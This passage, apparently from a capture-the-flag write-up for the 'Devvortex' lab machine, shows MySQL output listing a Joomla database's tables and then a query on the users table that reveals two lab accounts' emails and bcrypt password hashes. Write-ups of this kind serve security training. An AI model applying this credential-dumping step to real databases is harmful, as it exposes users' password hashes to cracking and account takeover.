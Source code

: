 ```mysql
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)
```

Then by executing `select * from sd4fg_users;` we see users and the hashed passwords, such as:

```mysql
lewis - lewis@devvortex.htb - $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u

logan paul - logan@devvortex.htb - $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```
